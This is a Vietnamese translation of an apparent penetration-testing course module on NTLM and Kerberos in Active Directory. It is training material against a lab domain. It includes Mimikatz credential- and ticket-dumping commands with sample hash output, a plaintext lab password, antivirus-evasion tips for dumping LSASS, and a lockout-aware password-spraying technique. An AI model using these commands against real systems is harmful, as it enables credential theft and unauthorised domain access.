

# Attacking Active Directory Authentication

# Tấn công Cơ chế Xác thực Active Directory

---

Trong Module này, chúng ta sẽ đề cập đến các Learning Unit sau:

- Hiểu về cơ chế xác thực của Active Directory
- Thực hiện các cuộc tấn công vào cơ chế xác thực Active Directory

Sau khi đã liệt kê các tài khoản người dùng, tư cách thành viên nhóm và các Service Principal Name đã đăng ký trong Module trước *Giới thiệu và Liệt kê Active Directory*, giờ đây chúng ta sẽ cố gắng sử dụng những thông tin này để xâm nhập Active Directory.

Trong Module này, trước tiên chúng ta sẽ khám phá các cơ chế xác thực của Active Directory (AD) và tìm hiểu nơi Windows lưu trữ bộ nhớ đệm các đối tượng xác thực như hash mật khẩu và ticket. Tiếp theo, chúng ta sẽ làm quen với các phương pháp tấn công nhắm vào những cơ chế xác thực này. Chúng ta có thể sử dụng các kỹ thuật này trong những giai đoạn khác nhau của một penetration test nhằm thu được thông tin xác thực người dùng và quyền truy cập vào các hệ thống và dịch vụ. Với mục đích của Module này, chúng ta sẽ nhắm vào cùng một domain (corp.com) như trong Module trước.

---

# 1. Hiểu về Cơ chế Xác thực Active Directory

---

Learning Unit này bao gồm các Learning Objectives sau:

- Hiểu về xác thực NTLM
- Hiểu về xác thực Kerberos
- Làm quen với các thông tin xác thực AD được lưu trong bộ nhớ đệm

Active Directory hỗ trợ nhiều giao thức và kỹ thuật xác thực khác nhau để triển khai xác thực cho các máy tính Windows cũng như các hệ thống chạy Linux và macOS.

*Active Directory hỗ trợ một số giao thức cũ hơn, bao gồm WDigest. Mặc dù những giao thức này có thể hữu ích đối với các hệ điều hành cũ như Windows 7 hoặc Windows Server 2008 R2, trong Learning Unit này chúng ta sẽ chỉ tập trung vào các giao thức xác thực hiện đại hơn.*

Trong Learning Unit này, chúng ta sẽ thảo luận chi tiết về cơ chế xác thực NTLM và Kerberos. Ngoài ra, chúng ta sẽ khám phá nơi và cách các thông tin xác thực AD được lưu trong bộ nhớ đệm trên các hệ thống Windows.

---

## 1.1. Xác thực NTLM

---

Trong *Password Attacks*, chúng ta đã thảo luận ngắn gọn NTLM là gì và có thể tìm các hash của nó ở đâu. Trong phần này, chúng ta sẽ khám phá xác thực NTLM trong bối cảnh của Active Directory.

Xác thực NTLM được sử dụng khi một client xác thực tới một server bằng địa chỉ IP (thay vì bằng hostname), hoặc khi người dùng cố gắng xác thực tới một hostname không được đăng ký trên DNS server tích hợp với Active Directory. Tương tự, các ứng dụng bên thứ ba có thể lựa chọn sử dụng xác thực NTLM thay vì Kerberos.

Giao thức xác thực NTLM bao gồm bảy bước:



                                           *Hình 1: Sơ đồ xác thực NTLM trong Active Directory*

Ở bước đầu tiên, máy tính sẽ tính toán một giá trị hash mật mã, gọi là NTLM hash, từ mật khẩu của người dùng. Tiếp theo, máy client gửi tên người dùng tới server, server này sẽ trả về một giá trị ngẫu nhiên gọi là nonce hoặc challenge. Sau đó, client mã hóa nonce bằng NTLM hash, lúc này được gọi là response, và gửi nó tới server.

Server chuyển tiếp response cùng với tên người dùng và nonce tới domain controller. Việc xác thực sau đó được thực hiện bởi domain controller, vì nó đã biết NTLM hash của tất cả người dùng. Domain controller tự mã hóa nonce bằng NTLM hash của tên người dùng được cung cấp và so sánh kết quả này với response mà nó nhận được từ server. Nếu hai giá trị bằng nhau, yêu cầu xác thực sẽ thành công.

Giống như các loại hash mật mã khác, NTLM không thể bị đảo ngược. Tuy nhiên, nó được xem là một thuật toán băm nhanh, vì các mật khẩu ngắn có thể bị crack nhanh chóng bằng phần cứng ở mức trung bình.

*Bằng cách sử dụng các phần mềm crack như Hashcat cùng với các bộ xử lý đồ họa hàng đầu, có thể kiểm thử hơn 600 tỷ NTLM hash mỗi giây. Điều này có nghĩa là các mật khẩu dài tám ký tự có thể bị crack trong vòng 2,5 giờ và các mật khẩu dài chín ký tự có thể bị crack trong vòng 11 ngày.*

Tuy nhiên, mặc dù tồn tại những điểm yếu tương đối, việc vô hiệu hóa và chặn hoàn toàn xác thực NTLM đòi hỏi phải có sự lập kế hoạch và chuẩn bị kỹ lưỡng, vì đây là một cơ chế dự phòng quan trọng và được nhiều ứng dụng bên thứ ba sử dụng. Do đó, trong phần lớn các bài đánh giá, chúng ta sẽ gặp xác thực NTLM vẫn đang được bật.

Bây giờ, khi đã bao quát ngắn gọn về xác thực NTLM, trong phần tiếp theo chúng ta sẽ bắt đầu khám phá Kerberos. Kerberos là giao thức xác thực mặc định trong Active Directory và cho các dịch vụ liên quan.

---

## 1.2. Xác thực Kerberos

---

Giao thức xác thực Kerberos được Microsoft sử dụng được kế thừa từ Kerberos phiên bản 5 do MIT phát triển. Kerberos đã được sử dụng như cơ chế xác thực chính của Microsoft kể từ Windows Server 2003. Trong khi xác thực NTLM hoạt động dựa trên mô hình challenge-and-response, xác thực Kerberos trên nền tảng Windows sử dụng một hệ thống vé (ticket).

Một điểm khác biệt quan trọng giữa hai giao thức này (dựa trên các hệ thống nền tảng) là với xác thực NTLM, client khởi tạo quá trình xác thực trực tiếp với application server, như đã thảo luận trong phần trước. Ngược lại, xác thực client bằng Kerberos liên quan đến việc sử dụng domain controller trong vai trò là một Key Distribution Center (KDC). Client bắt đầu quá trình xác thực với KDC chứ không phải với application server. Dịch vụ KDC chạy trên mỗi domain controller và chịu trách nhiệm cấp phát session ticket và các session key tạm thời cho người dùng và máy tính.

Quy trình xác thực client ở mức tổng quan được minh họa trong Hình 2.


                                                          *Hình 2: Sơ đồ xác thực Kerberos*

Hãy xem xét chi tiết quy trình này. Đầu tiên, khi người dùng đăng nhập vào máy trạm của họ, một gói Authentication Server Request (AS-REQ) được gửi tới domain controller. Domain controller, trong vai trò KDC, cũng duy trì dịch vụ Authentication Server. AS-REQ chứa một timestamp được mã hóa bằng một giá trị hash được dẫn xuất từ mật khẩu của người dùng và username của họ.

Khi domain controller nhận được yêu cầu này, nó sẽ tra cứu password hash tương ứng với người dùng cụ thể trong file `ntds.dit` và cố gắng giải mã timestamp. Nếu quá trình giải mã thành công và timestamp không bị trùng lặp, việc xác thực được xem là thành công.

Nếu timestamp bị trùng lặp, điều này có thể là dấu hiệu của một cuộc tấn công replay tiềm năng.

Tiếp theo, domain controller phản hồi lại client bằng một Authentication Server Reply (AS-REP). Vì Kerberos là một giao thức không trạng thái (stateless), AS-REP chứa một session key và một Ticket Granting Ticket (TGT). Session key được mã hóa bằng password hash của người dùng và có thể được client giải mã và tái sử dụng. TGT chứa thông tin về người dùng, domain, một timestamp, địa chỉ IP của client và session key.

Để tránh bị giả mạo, TGT được mã hóa bằng một khóa bí mật (NTLM hash của tài khoản krbtgt) chỉ KDC biết và client không thể giải mã được. Khi client đã nhận được session key và TGT, KDC xem quá trình xác thực client là hoàn tất. Theo mặc định, TGT có hiệu lực trong mười giờ, sau đó sẽ được gia hạn. Việc gia hạn này không yêu cầu người dùng phải nhập lại mật khẩu.

Khi người dùng muốn truy cập các tài nguyên trong domain, chẳng hạn như một network share hoặc mailbox, client lại phải liên hệ với KDC.

Lần này, client xây dựng một gói Ticket Granting Service Request (TGS-REQ) bao gồm người dùng hiện tại và một timestamp được mã hóa bằng session key, tên của tài nguyên, và TGT đã được mã hóa.

Tiếp theo, dịch vụ ticket-granting trên KDC nhận TGS-REQ, và nếu tài nguyên tồn tại trong domain, TGT sẽ được giải mã bằng khóa bí mật chỉ KDC biết. Session key sau đó được trích xuất từ TGT và được sử dụng để giải mã username và timestamp của yêu cầu. Tại thời điểm này, KDC thực hiện một số kiểm tra:

- TGT phải có timestamp hợp lệ.
- Username từ TGS-REQ phải khớp với username trong TGT.
- Địa chỉ IP của client phải trùng khớp với địa chỉ IP trong TGT.

Nếu quá trình xác minh này thành công, dịch vụ ticket-granting sẽ phản hồi client bằng một Ticket Granting Server Reply (TGS-REP). Gói tin này bao gồm ba phần:

- Tên của dịch vụ mà quyền truy cập đã được cấp.
- Một session key để sử dụng giữa client và dịch vụ.
- Một service ticket chứa username và các group membership cùng với session key mới được tạo.

Tên dịch vụ và session key trong service ticket được mã hóa bằng session key ban đầu liên quan đến việc tạo TGT. Service ticket được mã hóa bằng password hash của service account đã được đăng ký với dịch vụ tương ứng.

Khi quá trình xác thực bởi KDC hoàn tất và client đã có cả session key lẫn service ticket, quá trình xác thực với dịch vụ bắt đầu.

Đầu tiên, client gửi tới application server một Application Request (AP-REQ), bao gồm username và một timestamp được mã hóa bằng session key gắn với service ticket, cùng với chính service ticket đó.

Application server giải mã service ticket bằng password hash của service account và trích xuất username cùng session key. Sau đó, nó sử dụng session key này để giải mã username trong AP-REQ. Nếu username trong AP-REQ khớp với username được giải mã từ service ticket, yêu cầu sẽ được chấp nhận. Trước khi cấp quyền truy cập, dịch vụ sẽ kiểm tra các group membership được cung cấp trong service ticket và gán các quyền phù hợp cho người dùng, sau đó người dùng có thể truy cập dịch vụ được yêu cầu.

Giao thức này có thể trông phức tạp và thậm chí rườm rà, nhưng nó được thiết kế để giảm thiểu nhiều loại tấn công mạng khác nhau và ngăn chặn việc sử dụng các thông tin xác thực giả mạo.

Giờ đây, khi chúng ta đã thảo luận về nền tảng của cả xác thực NTLM và Kerberos, hãy cùng khám phá các kiểu lưu trữ thông tin xác thực được cache và các cuộc tấn công vào service account.

---

## 1.3. Thông tin xác thực AD được lưu trong bộ nhớ đệm

---

Để đặt nền tảng cho các cuộc tấn công vào cơ chế lưu trữ thông tin xác thực được cache và các vector lateral movement trong Module *Lateral Movement in Active Directory*, trước hết chúng ta cần thảo luận về các loại password hash khác nhau được sử dụng với Kerberos và cách chúng được lưu trữ.

Chúng ta đã đề cập đến một phần của các thông tin sau trong Module *Password Attacks*. Trong phần này, chúng ta sẽ tập trung vào các thông tin xác thực và ticket được lưu trong bộ nhớ đệm trong bối cảnh của AD.

Do cách Microsoft triển khai Kerberos sử dụng cơ chế single sign-on, các password hash phải được lưu trữ ở đâu đó để có thể gia hạn yêu cầu TGT.

Trong các phiên bản Windows hiện đại, các hash này được lưu trữ trong không gian bộ nhớ của Local Security Authority Subsystem Service (LSASS).

Nếu chúng ta truy cập được các hash này, chúng ta có thể crack chúng để thu được mật khẩu dạng cleartext hoặc tái sử dụng chúng để thực hiện nhiều hành động khác nhau.

Mặc dù đây là mục tiêu cuối cùng của các cuộc tấn công AD, quá trình này không đơn giản như vẻ bề ngoài. Vì tiến trình LSASS là một phần của hệ điều hành và chạy với quyền SYSTEM, chúng ta cần quyền SYSTEM (hoặc local administrator) để có thể truy cập các hash được lưu trữ trên mục tiêu.

Do đó, chúng ta thường phải bắt đầu cuộc tấn công bằng việc leo thang đặc quyền cục bộ nhằm truy xuất các hash đã lưu. Để làm cho mọi thứ trở nên phức tạp hơn, các cấu trúc dữ liệu được sử dụng để lưu trữ hash trong bộ nhớ không được công bố công khai, và chúng cũng được mã hóa bằng một khóa được lưu trong LSASS.

Tuy vậy, vì việc trích xuất thông tin xác thực được cache là một vector tấn công lớn đối với Windows và Active Directory, nhiều công cụ đã được tạo ra để trích xuất các hash này. Công cụ phổ biến nhất trong số đó là Mimikatz.

Hãy thử sử dụng Mimikatz để trích xuất các domain hash trên hệ thống Windows 11 của chúng ta.

*Trong ví dụ sau, chúng ta sẽ chạy Mimikatz như một ứng dụng độc lập. Tuy nhiên, do mức độ phổ biến rộng rãi của Mimikatz và các signature phát hiện đã quá quen thuộc, hãy cân nhắc tránh sử dụng nó như một ứng dụng độc lập và thay vào đó sử dụng các phương pháp được thảo luận trong Module Antivirus Evasion. Ví dụ, thực thi Mimikatz trực tiếp từ bộ nhớ bằng cách sử dụng một injector như PowerShell, hoặc sử dụng một công cụ tích hợp sẵn như Task Manager để dump toàn bộ bộ nhớ của tiến trình LSASS, chuyển dữ liệu đã dump sang một máy hỗ trợ, sau đó nạp dữ liệu này vào Mimikatz.*

Vì user domain jeff là local administrator trên CLIENT75, chúng ta có thể khởi chạy một PowerShell prompt với quyền nâng cao. Trước tiên, hãy kết nối tới máy này với tư cách jeff và mật khẩu HenchmanPutridBonbon11 qua RDP.

```
kali@kali:~$ xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.50.75
```

                                                  *Listing 1 - Kết nối tới CLIENT75 qua RDP*

Sau khi kết nối, chúng ta khởi chạy một phiên PowerShell với quyền Administrator. Từ cửa sổ dòng lệnh này, chúng ta có thể khởi động Mimikatz và nhập `privilege::debug` để kích hoạt đặc quyền SeDebugPrivilege, cho phép chúng ta tương tác với các tiến trình thuộc về một tài khoản khác.

```
PS C:\Windows\system32> cd C:\Tools

PS C:\Tools\> .\mimikatz.exe
...

mimikatz # privilege::debug
Privilege '20' OK
```

                               *Listing 2 - Khởi động Mimikatz và kích hoạt SeDebugPrivilege*

Giờ đây chúng ta có thể chạy `sekurlsa::logonpasswords` để dump thông tin xác thực của tất cả người dùng đang đăng nhập bằng module Sekurlsa.

Lệnh này sẽ dump các hash của tất cả người dùng đang đăng nhập vào workstation hoặc server hiện tại, bao gồm cả các phiên đăng nhập từ xa như Remote Desktop.

```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 4876838 (00000000:004a6a26)
Session           : RemoteInteractive from 2
User Name         : jeff
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/9/2022 12:32:11 PM
SID               : S-1-5-21-1987370270-658905905-1781884369-1105
        msv :
         [00000003] Primary
         * Username : jeff
         * Domain   : CORP
         * NTLM     : 2688c6d2af5e9c7ddb268899123744ea
         * SHA1     : f57d987a25f39a2887d158e8d5ac41bc8971352f
         * DPAPI    : 3a847021d5488a148c265e6d27a420e6
        tspkg :
        wdigest :
         * Username : jeff
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : jeff
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
        cloudap :
...
Authentication Id : 0 ; 122474 (00000000:0001de6a)
Session           : Service from 0
User Name         : dave
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/9/2022 1:32:23 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1103
        msv :
         [00000003] Primary
         * Username : dave
         * Domain   : CORP
         * NTLM     : 08d7a47a6f9f66b97b1bae4178747494
         * SHA1     : a0c2285bfad20cc614e2d361d6246579843557cd
         * DPAPI    : fed8536adc54ad3d6d9076cbc6dd171d
        tspkg :
        wdigest :
         * Username : dave
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : dave
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
        cloudap :
...
```

                                      *Listing 3 - Thực thi Mimikatz trên một domain workstation*

Kết quả đầu ra ở trên hiển thị toàn bộ thông tin xác thực được lưu trong LSASS cho các user domain jeff và dave, bao gồm cả các hash được cache.

Một kỹ thuật phòng thủ hiệu quả để ngăn các công cụ như Mimikatz trích xuất hash là bật thêm LSA Protection. LSA bao gồm tiến trình LSASS. Bằng cách thiết lập một registry key, Windows sẽ ngăn việc đọc bộ nhớ từ tiến trình này. Chúng ta sẽ thảo luận chi tiết cách bypass cơ chế này và các biện pháp phòng thủ mạnh mẽ khác trong khóa học *OffSec’s Evasion Techniques and Breaching Defenses*, PEN-300.

Chúng ta có thể quan sát hai loại hash được làm nổi bật trong kết quả đầu ra ở trên. Điều này sẽ thay đổi tùy theo functional level của triển khai AD. Với các instance AD ở functional level Windows 2003, NTLM là thuật toán băm duy nhất khả dụng. Với các instance chạy Windows Server 2008 trở lên, cả NTLM và SHA-1 (một thuật toán thường đi kèm với mã hóa AES) đều có thể xuất hiện. Trên các hệ điều hành cũ như Windows 7, hoặc các hệ điều hành được cấu hình thủ công, WDigest sẽ được bật. Khi WDigest được bật, việc chạy Mimikatz sẽ hiển thị mật khẩu dạng cleartext bên cạnh các password hash.

Với các hash này trong tay, chúng ta có thể thử crack chúng để thu được mật khẩu cleartext giống như đã làm trong *Password Attacks*.

Một cách tiếp cận khác khi sử dụng Mimikatz là khai thác xác thực Kerberos bằng cách lạm dụng TGT và service ticket. Như đã thảo luận, chúng ta biết rằng TGT và service ticket Kerberos của những người dùng hiện đang đăng nhập trên máy cục bộ được lưu trữ để sử dụng trong tương lai. Các ticket này cũng được lưu trong LSASS, và chúng ta có thể sử dụng Mimikatz để tương tác và trích xuất ticket của chính mình cũng như của các user cục bộ khác.

Hãy mở một cửa sổ PowerShell thứ hai và liệt kê nội dung của SMB share trên WEB04 với UNC path `\\web04.corp.com\backup`. Thao tác này sẽ tạo và cache một service ticket.

```
PS C:\Users\jeff> dir \\web04.corp.com\backup

    Directory: \\web04.corp.com\backup

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/13/2022   2:52 AM              0 backup_schemata.txt
```

                                         *Listing 4 - Hiển thị nội dung của một SMB share*

Sau khi đã thực hiện lệnh liệt kê thư mục trên SMB share, chúng ta có thể sử dụng Mimikatz để hiển thị các ticket đang được lưu trong bộ nhớ bằng cách nhập `sekurlsa::tickets`.

```
mimikatz # sekurlsa::tickets

Authentication Id : 0 ; 656588 (00000000:000a04cc)
Session           : RemoteInteractive from 2
User Name         : jeff
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/13/2022 2:43:31 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1105

         * Username : jeff
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service
         [00000000]
           Start/End/MaxRenew: 9/13/2022 2:59:47 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : cifs ; web04.corp.com ; @ CORP.COM
           Target Name  (02) : cifs ; web04.corp.com ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM
           Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             38dba17553c8a894c79042fe7265a00e36e7370b99505b8da326ff9b12aaf9c7
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]
         [00000001]
           Start/End/MaxRenew: 9/13/2022 2:43:56 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : LDAP ; DC1.corp.com ; corp.com ; @ CORP.COM
           Target Name  (02) : LDAP ; DC1.corp.com ; corp.com ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM ( CORP.COM )
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             c44762f3b4755f351269f6f98a35c06115a53692df268dead22bc9f06b6b0ce5
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/13/2022 2:43:56 AM ; 9/13/2022 12:43:56 PM ; 9/20/2022 2:43:56 AM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Client Name  (01) : jeff ; @ CORP.COM ( CORP.COM )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             bf25fbd514710a98abaccdf026b5ad14730dd2a170bca9ded7db3fd3b853892a
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
...
```

                                       *Listing 5 - Trích xuất Kerberos ticket bằng mimikatz*

Kết quả cho thấy cả một TGT và một TGS. Việc đánh cắp một TGS sẽ cho phép chúng ta chỉ truy cập các tài nguyên cụ thể gắn với các ticket đó. Ngược lại, với một TGT trong tay, chúng ta có thể yêu cầu một TGS cho các tài nguyên cụ thể mà chúng ta muốn nhắm tới trong domain. Chúng ta sẽ thảo luận cách tận dụng các ticket bị đánh cắp hoặc giả mạo sau này trong Module này và Module tiếp theo.

Mimikatz cũng có thể export các ticket ra ổ cứng và import các ticket vào LSASS, điều mà chúng ta sẽ khám phá sau.

Trước khi đi vào các cuộc tấn công vào cơ chế xác thực AD, hãy cùng tìm hiểu ngắn gọn về việc sử dụng Public Key Infrastructure (PKI) trong AD. Microsoft cung cấp role AD là Active Directory Certificate Services (AD CS) để triển khai một PKI, cho phép trao đổi các chứng chỉ số giữa những người dùng đã được xác thực và các tài nguyên đáng tin cậy.

Nếu một server được cài đặt như một Certification Authority (CA), nó có thể phát hành và thu hồi các chứng chỉ số (và nhiều chức năng khác). Mặc dù việc thảo luận sâu về các khái niệm này sẽ cần một Module riêng, ở đây chúng ta sẽ tập trung vào một khía cạnh của các đối tượng được cache và lưu trữ liên quan đến AD CS.

Ví dụ, chúng ta có thể phát hành chứng chỉ cho các web server để sử dụng HTTPS hoặc để xác thực người dùng dựa trên chứng chỉ từ CA thông qua Smart Card.

Các chứng chỉ này có thể được đánh dấu là có private key không thể export vì lý do bảo mật. Trong trường hợp đó, private key gắn với chứng chỉ sẽ không thể được export ngay cả khi có quyền quản trị. Tuy nhiên, vẫn tồn tại nhiều phương pháp để export chứng chỉ kèm theo private key.

Chúng ta một lần nữa có thể dựa vào Mimikatz để thực hiện việc này. Module crypto chứa khả năng vá hàm CryptoAPI với `crypto::capi` hoặc dịch vụ KeyIso với `crypto::cng`, qua đó biến các khóa không thể export thành có thể export.

Như vậy, qua phần này và Module *Password Attacks*, chúng ta thấy rằng Mimikatz có thể trích xuất thông tin liên quan đến xác thực được thực hiện thông qua hầu hết các giao thức và cơ chế, khiến công cụ này thực sự trở thành một “Swiss Army knife” cho các thông tin xác thực được cache.

---

# 2. Thực hiện các cuộc tấn công vào Cơ chế Xác thực Active Directory

---

Learning Unit này bao gồm các Learning Objectives sau:

- Sử dụng các cuộc tấn công mật khẩu để thu được thông tin xác thực người dùng hợp lệ
- Lạm dụng các tùy chọn tài khoản người dùng đang được bật
- Lạm dụng cơ chế xác thực Kerberos SPN
- Giả mạo service ticket
- Mạo danh domain controller để truy xuất thông tin xác thực của bất kỳ domain user nào

Trong Learning Unit trước, chúng ta đã thảo luận về xác thực NTLM và Kerberos, cũng như nơi có thể tìm thấy các thông tin xác thực và đối tượng AD được lưu trong bộ nhớ đệm. Trong Learning Unit này, chúng ta sẽ khám phá nhiều kiểu tấn công khác nhau trong bối cảnh của các cơ chế xác thực này. Các kỹ thuật tấn công được giới thiệu một cách độc lập với nhau, vì chúng có thể được sử dụng trong nhiều giai đoạn khác nhau của một penetration test. Đối với phần lớn các cuộc tấn công, chúng ta cũng sẽ thảo luận các cách thực hiện chúng trên cả Windows và Linux, giúp chúng ta linh hoạt hơn và có khả năng thích ứng với nhiều kịch bản đánh giá thực tế khác nhau.

---

## 2.1. Tấn công Mật khẩu

---

Trong một Module trước, chúng ta đã xem xét một số cuộc tấn công mật khẩu nhắm vào các dịch vụ mạng và thông tin đã được băm. Các cuộc tấn công mật khẩu cũng là một lựa chọn khả thi trong bối cảnh AD để thu được thông tin xác thực người dùng. Trong phần này, chúng ta sẽ khám phá nhiều kiểu tấn công mật khẩu AD khác nhau.

Trước khi đi sâu vào các cuộc tấn công này, chúng ta cần lưu ý một yếu tố quan trọng. Khi thực hiện các cuộc tấn công xác thực dạng brute force hoặc wordlist, chúng ta phải chú ý đến cơ chế khóa tài khoản. Quá nhiều lần đăng nhập thất bại có thể khóa tài khoản, khiến không thể tiếp tục tấn công và có thể cảnh báo cho quản trị viên hệ thống.

Để tìm hiểu thêm về cơ chế khóa tài khoản, hãy xem lại chính sách tài khoản của domain với tư cách domain user jeff trên CLIENT75. Chúng ta có thể kết nối tới hệ thống với mật khẩu HenchmanPutridBonbon11 qua RDP. Tiếp theo, chúng ta mở một cửa sổ PowerShell thông thường và thực thi lệnh `net accounts` để thu thập chính sách tài khoản.

```
PS C:\Users\jeff> net accounts
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          1
Maximum password age (days):                          42
Minimum password length:                              7
Length of password history maintained:                24
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        WORKSTATION
The command completed successfully.
```

                                                 *Listing 6 - Kết quả của lệnh net accounts*

Có rất nhiều thông tin hữu ích, nhưng trước tiên hãy tập trung vào **Lockout threshold**, cho biết giới hạn là năm lần đăng nhập trước khi tài khoản bị khóa. Điều này có nghĩa là chúng ta có thể thử an toàn bốn lần đăng nhập trước khi kích hoạt khóa tài khoản. Mặc dù con số này có vẻ không nhiều, chúng ta cũng cần xem xét **Lockout observation window**, cho biết rằng sau ba mươi phút kể từ lần đăng nhập thất bại cuối cùng, chúng ta có thể thực hiện thêm các lần thử khác.

Với các thiết lập này, chúng ta có thể thử 192 lần đăng nhập trong vòng 24 giờ đối với mỗi domain user mà không kích hoạt khóa tài khoản, giả sử người dùng thực tế không đăng nhập sai.

Một cuộc tấn công như vậy có thể bao gồm việc xây dựng một danh sách ngắn các mật khẩu rất phổ biến và áp dụng nó cho một số lượng lớn người dùng. Đôi khi kiểu tấn công này có thể phát hiện khá nhiều mật khẩu yếu trong tổ chức.

Tuy nhiên, cách làm này cũng tạo ra một lượng lớn lưu lượng mạng. Hãy cùng xem xét ba kiểu tấn công password spraying có khả năng thành công cao hơn trong môi trường AD.

Kiểu tấn công password spraying đầu tiên sử dụng LDAP và ADSI để thực hiện một cuộc tấn công mật khẩu chậm và nhẹ đối với các user AD. Trong Module *Active Directory Introduction and Enumeration*, chúng ta đã thực hiện các truy vấn tới domain controller với tư cách người dùng đã đăng nhập bằng `DirectoryEntry`. Tuy nhiên, chúng ta cũng có thể thực hiện các truy vấn trong ngữ cảnh của một người dùng khác bằng cách cấu hình instance của `DirectoryEntry`.

Trong Module *Active Directory Introduction and Enumeration*, chúng ta đã sử dụng constructor của `DirectoryEntry` mà không có tham số. Tuy nhiên, chúng ta có thể cung cấp ba tham số, bao gồm đường dẫn LDAP tới domain controller, username và password:

```
PS C:\Users\jeff> $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
  
PS C:\Users\jeff> $PDC = ($domainObj.PdcRoleOwner).Name

PS C:\Users\jeff> $SearchString = "LDAP://"

PS C:\Users\jeff> $SearchString += $PDC + "/"

PS C:\Users\jeff> $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

PS C:\Users\jeff> $SearchString += $DistinguishedName

PS C:\Users\jeff> New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```

                                                  *Listing 7 - Xác thực bằng DirectoryEntry*

Nếu mật khẩu của tài khoản người dùng là chính xác, việc tạo đối tượng sẽ thành công, như thể hiện trong Listing 8.

```
distinguishedName : {DC=corp,DC=com}
Path              : LDAP://DC1.corp.com/DC=corp,DC=com
```

                                           *Listing 8 - Xác thực thành công với DirectoryEntry*

Nếu mật khẩu không hợp lệ, sẽ không có đối tượng nào được tạo và chúng ta sẽ nhận được một exception, như thể hiện trong Listing 9. Để minh họa, hãy thay đổi mật khẩu trong constructor thành `WrongPassword`. Chúng ta sẽ thấy cảnh báo rõ ràng rằng username hoặc password không chính xác.

```
format-default : The following exception occurred while retrieving member "distinguishedName": "The user name or password is incorrect."
    + CategoryInfo          : NotSpecified: (:) [format-default], ExtendedTypeSystemException
    + FullyQualifiedErrorId : CatchFromBaseGetMember,Microsoft.PowerShell.Commands.FormatDefaultCommand
```

                           *Listing 9 - Sử dụng mật khẩu không chính xác với DirectoryEntry*

Chúng ta có thể sử dụng kỹ thuật này để tạo một PowerShell script liệt kê toàn bộ người dùng và thực hiện xác thực theo đúng **Lockout threshold** và **Lockout observation window**.

Chiến thuật password spraying này đã được triển khai sẵn trong PowerShell script `C:\Tools\Spray-Passwords.ps1` trên CLIENT75.

